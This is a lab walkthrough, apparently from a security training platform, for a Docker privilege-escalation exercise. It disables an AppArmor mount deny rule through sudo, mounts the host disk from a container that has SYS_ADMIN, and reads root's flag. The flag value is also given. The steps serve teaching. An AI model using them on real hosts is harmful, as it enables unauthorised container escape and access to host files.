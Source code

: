 # Attack Defense Lab
## Privilege Escalation I (AppArmor)

**Important Note** : This document illustrates all the important steps required to complete this lab. This  is  by no  means  a  comprehensive  step-by-step  solution for this exercise.  This  is only provided as a reference to various commands needed to complete this exercise and for your further  research on this topic. Also,  note that the IP addresses and domain names might be different in your lab.


The student user access is provided on a Docker host. The Docker daemon is using a TCP socket and only restricted functionality is exposed to non-root users. The AppArmor profiles are also deployed to confine the containers. The flag is kept in the home directory of the root user of the Docker host.

### Objective :  Elevate access and retrieve the flag!  
### Solution :

**Step 1**: Check the sudo privileges granted to the user.  
Command: `sudo -l`  
  
![01](files/img/01.jpg)


**Step 2**:  Check the listening sockets on the machine.  
Command: `netstat -tlpn`  

![02](files/img/02.jpg)  

**Step 3**:  It is mentioned in the challenge statement that Docker daemon is listening on TCP port. Port 22 belongs to the SSH server so the Docker socket is running on TCP port 2375. Set **DOCKER HOST** variable  
Command: `export DOCKER_HOST=localhost:2375`
  
![03](files/img/03.jpg)  
  
**Step 4**:​ List the containers running on the host.  
Command:​ `docker ps`  
  
![04](files/img/04.jpg) 
  
**Step 5**:​ Open another terminal (T2) and run tail on audit.log file. Also apply a filter to only viewapparmor logs.  
Command:​ `sudo /usr/bin/tail -f /var/log/audit/audit.log | grep apparmor`  
  
![05](files/img/05.jpg)  
  
**Step 6**:​ After trying to perform various operations on the docker, eventually it will be clear thatonly exec command is allowed by custom docker firewall. So, exec into the running container.  
Command:​ `docker exec -it 1664c45a8ada bash`  
  
![06](files/img/06.jpg)  


**Step 7**:​ Check the capabilities granted to the Docker container.  
Command:​ `capsh --print`  
  
![07](files/img/07.jpg)  
  
The container has multiple capabilities but mainly also has **SYS_ADMIN** capability that allowsthe user to perform multiple privileged operations.  
  
**Step 8**:​ Check the storage devices (disks) available on this machine.  
Command:​ `fdisk -l`  

![08](files/img/08.jpg)
    
One can observe that a disk of the host is attached to the container and is mounted at `/dev/sda`.  

**Step 9**:​ Try to mount it on /tmp directory.  
Command:​ `mount /dev/sda  /tmp/`  

![09](files/img/09.jpg)   
  
The attempt failed. As the container had the capability to perform this action, this is highly likelythat the apparmor has blocked this action.  

**Step 10​**: Check the logs appearing from `audit.log` file in terminal T2.  

![10](files/img/10.jpg)   

It is clear from the logs that apparmor has denied the mount operation for `docker` profile.  

**Step 11**:​ Change to apparmor profile directory and open the docker profile file using vim.  
Commands:  
```
cd /etc/apparmor.d/
sudo vim docker
```  
![11](files/img/11.jpg)   
  
In the profile file, the mount operation is denied.  

![11b](files/img/11b.jpg)   

Remove the `deny` string from the line. So, after modification the profile should appear asshown in the screenshot below :  

![11c](files/img/11c.jpg)   

**Step 12**:​ Reload the apparmor profile.  
Command:​ `sudo apparmor_parser -r docker`  

![12](files/img/12.jpg)   
  
**Step 13**:​ Now try to mount the disk again.  
Command:​ `mount /dev/sda /tmp/`  

![13](files/img/13.jpg)   
  
This time the operation succeeded.  

**Step 14**:​ Retrieve the flag from the home directory of the root user.  
Command: `​cat /tmp/root/flag`  

![14](files/img/14.jpg)   

Flag: `​a9a9bd74ce2bdb3ca85d44a9c0ed776a` 

References:  
● AppArmor man page(​http://manpages.ubuntu.com/manpages/bionic/man7/apparmor.7.html​)(​http://manpages.ubuntu.com/manpages/bionic/man5/apparmor.d.5.html​)  
  
● Beginning AppArmor profile development(​https://ubuntu.com/tutorials/beginning-apparmor-profile-development​)  
 
